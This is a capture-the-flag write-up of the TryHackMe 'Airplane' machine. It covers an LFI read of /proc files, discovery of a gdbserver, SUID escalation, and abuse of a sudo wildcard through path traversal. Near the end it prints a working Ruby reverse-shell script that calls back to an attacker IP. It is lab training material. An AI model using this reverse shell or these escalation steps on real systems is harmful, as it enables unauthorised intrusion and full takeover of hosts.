

# TryHackMe - Airplane

## Enumeration

We start with our nmap scan which reveals a webserver hosted on port 8000. We alter our /etc/hosts to include this IP address and head to the domain.

```
# Nmap 7.94SVN scan initiated Fri Jun 14 12:13:52 2024 as: nmap -sCV -oN nmap/output 10.10.227.52
Nmap scan report for airplane.thm (10.10.227.52)
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b8:64:f7:a9:df:29:3a:b5:8a:58:ff:84:7c:1f:1a:b7 (RSA)
|   256 ad:61:3e:c7:10:32:aa:f1:f2:28:e2:de:cf:84:de:f0 (ECDSA)
|_  256 a9:d8:49:aa:ee:de:c4:48:32:e4:f1:9e:2a:8a:67:f0 (ED25519)
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10
|_http-server-header: Werkzeug/3.0.2 Python/3.8.10
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/3.0.2 Python/3.8.10
|     Date: Fri, 14 Jun 2024 16:14:05 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/3.0.2 Python/3.8.10
|     Date: Fri, 14 Jun 2024 16:14:00 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 269
|     Location: http://airplane.thm:8000/?page=index.html
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://airplane.thm:8000/?page=index.html">http://airplane.thm:8000/?page=index.html</a>. If not, click the link.
|   Socks5: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('
|     ').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
| http-title: About Airplanes
|_Requested resource was http://airplane.thm:8000/?page=index.html
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.94SVN%I=7%D=6/14%Time=666C6C48%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,1F3,"HTTP/1\.1\x20302\x20FOUND\r\nServer:\x20Werkzeug/3\.0\
SF:.2\x20Python/3\.8\.10\r\nDate:\x20Fri,\x2014\x20Jun\x202024\x2016:14:00
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Leng
SF:th:\x20269\r\nLocation:\x20http://airplane\.thm:8000/\?page=index\.html
SF:\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n
SF:<title>Redirecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x2
SF:0should\x20be\x20redirected\x20automatically\x20to\x20the\x20target\x20
SF:URL:\x20<a\x20href=\"http://airplane\.thm:8000/\?page=index\.html\">htt
SF:p://airplane\.thm:8000/\?page=index\.html</a>\.\x20If\x20not,\x20click\
SF:x20the\x20link\.\n")%r(FourOhFourRequest,184,"HTTP/1\.1\x20404\x20NOT\x
SF:20FOUND\r\nServer:\x20Werkzeug/3\.0\.2\x20Python/3\.8\.10\r\nDate:\x20F
SF:ri,\x2014\x20Jun\x202024\x2016:14:05\x20GMT\r\nContent-Type:\x20text/ht
SF:ml;\x20charset=utf-8\r\nContent-Length:\x20207\r\nConnection:\x20close\
SF:r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n<title>404\x20Not\x20Foun
SF:d</title>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20
SF:not\x20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x2
SF:0URL\x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x
SF:20again\.</p>\n")%r(Socks5,213,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C
SF://DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://
SF:www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20
SF:content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\
SF:x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20syntax\x20\('\\
SF:x05\\x04\\x00\\x01\\x02\\x80\\x05\\x01\\x00\\x03'\)\.</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD
SF:_REQUEST\x20-\x20Bad\x20request\x20syntax\x20or\x20unsupported\x20metho
SF:d\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 14 12:15:29 2024 -- 1 IP address (1 host up) scanned in 96.42 seconds

```

Instantly from loading the webpage, we notice that the Index page takes one request which appears to be a file, which instantly leads us to some kind of LFI vulnerability.

<figure><figcaption></figcaption></figure>

We then prove this by trying to load the /etc/passwd file and reading the contents, unfortunately not revealing any password hashes but allowing us to find the "hudson" and "carlos" users running on the machine.

<figure><figcaption></figcaption></figure>

We try to steal their SSH keys but are unable to do so since they do not appear to exist and as such, decide to check the user who is currently running our process. All current processes on the target system store relevant information in the /proc/ directory, and we know our current process will operate in the "self" folder and then can check the status with "status". Looking at the output from this we notice that this is running as the "hudson" user is running the webserver, as identified by comparing the /etc/passwd file to the UID shown from this command.

<figure><figcaption></figcaption></figure>

Using the same folder, we can find the current command that the user ran to execute this service which reveals the location of our file.

<figure><figcaption></figcaption></figure>

Unfortunately, as we attempt to load this file we realise this isn't the file we want, nor is "app.py" located in the Python3 folder.&#x20;

<figure><figcaption></figcaption></figure>

What else can we exploit in the current process folder? Well there's always the current working directory, more commonly known as "cwd". This is symlinked to the current working directory and therefore lets us read a fill in that current directory which, in our case, can be "app.py" as we established from our earlier enumeration.

```python
from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False

            if os.path.getsize(page) == 0:
                resp.headers["Content-Length"]=str(len(resp.get_data()))

            return resp
        
        else:
            return "Page not found"

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)    


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

Looking at this code we find nothing of use so head back to our enumeration and look at our all ports scan with the only real difference being the port "6048".

```
# Nmap 7.94SVN scan initiated Fri Jun 14 12:17:14 2024 as: nmap -sCV -p- -oN nmap/all_ports 10.10.227.52
Nmap scan report for airplane.thm (10.10.227.52)
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b8:64:f7:a9:df:29:3a:b5:8a:58:ff:84:7c:1f:1a:b7 (RSA)
|   256 ad:61:3e:c7:10:32:aa:f1:f2:28:e2:de:cf:84:de:f0 (ECDSA)
|_  256 a9:d8:49:aa:ee:de:c4:48:32:e4:f1:9e:2a:8a:67:f0 (ED25519)
6048/tcp open  x11?
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10
| http-title: About Airplanes
|_Requested resource was http://airplane.thm:8000/?page=index.html
|_http-server-header: Werkzeug/3.0.2 Python/3.8.10
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/3.0.2 Python/3.8.10
|     Date: Fri, 14 Jun 2024 16:17:46 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/3.0.2 Python/3.8.10
|     Date: Fri, 14 Jun 2024 16:17:41 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 269
|     Location: http://airplane.thm:8000/?page=index.html
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://airplane.thm:8000/?page=index.html">http://airplane.thm:8000/?page=index.html</a>. If not, click the link.
|   Socks5: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('
|     ').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.94SVN%I=7%D=6/14%Time=666C6D25%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,1F3,"HTTP/1\.1\x20302\x20FOUND\r\nServer:\x20Werkzeug/3\.0\
SF:.2\x20Python/3\.8\.10\r\nDate:\x20Fri,\x2014\x20Jun\x202024\x2016:17:41
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Leng
SF:th:\x20269\r\nLocation:\x20http://airplane\.thm:8000/\?page=index\.html
SF:\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n
SF:<title>Redirecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x2
SF:0should\x20be\x20redirected\x20automatically\x20to\x20the\x20target\x20
SF:URL:\x20<a\x20href=\"http://airplane\.thm:8000/\?page=index\.html\">htt
SF:p://airplane\.thm:8000/\?page=index\.html</a>\.\x20If\x20not,\x20click\
SF:x20the\x20link\.\n")%r(FourOhFourRequest,184,"HTTP/1\.1\x20404\x20NOT\x
SF:20FOUND\r\nServer:\x20Werkzeug/3\.0\.2\x20Python/3\.8\.10\r\nDate:\x20F
SF:ri,\x2014\x20Jun\x202024\x2016:17:46\x20GMT\r\nContent-Type:\x20text/ht
SF:ml;\x20charset=utf-8\r\nContent-Length:\x20207\r\nConnection:\x20close\
SF:r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n<title>404\x20Not\x20Foun
SF:d</title>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20
SF:not\x20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x2
SF:0URL\x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x
SF:20again\.</p>\n")%r(Socks5,213,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C
SF://DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://
SF:www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20
SF:content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\
SF:x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20syntax\x20\('\\
SF:x05\\x04\\x00\\x01\\x02\\x80\\x05\\x01\\x00\\x03'\)\.</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD
SF:_REQUEST\x20-\x20Bad\x20request\x20syntax\x20or\x20unsupported\x20metho
SF:d\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 14 12:20:28 2024 -- 1 IP address (1 host up) scanned in 193.43 seconds
```

Unsure what it is, we send a request to see the current TCP connections being made inwards or outwards from the box which reveals nothing of use, but gives us an idea for where to go next. We can try to enumerate what processes are currently running through the command line argument that instantiated them.&#x20;

## User

We go to the Intruder page of Burpsuite, create our request and insert our Wordlist of numbers from 1-10000.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We leave this running for a while and eventually check back, avoding requests with a length of 187, which indicates "Page Not Found" and find our service! Running as service 523, a GDB server is running on port 6048!

<figure><figcaption></figcaption></figure>

Googling for potential ways to gain a shell on a GDB Server we find the following HackTricks documentation, for which we follow it.



We notice we can't upload in our current folder, presumably due to a lack of permissions so put this into the /tmp/ folder and continue on.

<figure><figcaption></figcaption></figure>

We get our shell but aren't exactly happy with it, so decide to upgrade by placing our SSH public key into authorized\_keys, allowing us to gain a proper shell on the box

<figure><figcaption></figcaption></figure>

Looking at the contents of our home directory we have nothing of interest so perform some basic Linux enumeration with the following command, we look for binaries that we may have interesting permissions with and eventually find a hit with the set userid permission.

<figure><figcaption></figcaption></figure>

Our beloved GTFOBins comes in handy and we use a SUID bit set to gain the effect userid of Carlos.



<figure><figcaption></figcaption></figure>

We find our user flag here and then move on to root.

<figure><figcaption></figcaption></figure>

## Root

We repeat the same process we used to stabilise our shell as the Hudson user and gain a proper shell as Carlos. As we normally do, we run `sudo -l` on the box and find that we can run any Ruby files in the root directory that end in "rb", which is the file extension for Ruby files.

<figure><figcaption></figcaption></figure>

One possible solution could be to try and enumerate files in the Root directory, but let's think about this logically. The \* indicates a wildcard meaning as long as the filepath starts with /root/ and ends with ".rb" anything can go inbetween, so we could put our own shell into here  and perform some directory traversal and it'd still work. We head to Revshells and make our Ruby shell, paste it into a file on the box and then start our netcat listener.

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '10.8.61.246'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'

```

Running this ruby file we get a shell back and have root!&#x20;

<figure><figcaption></figcaption></figure>
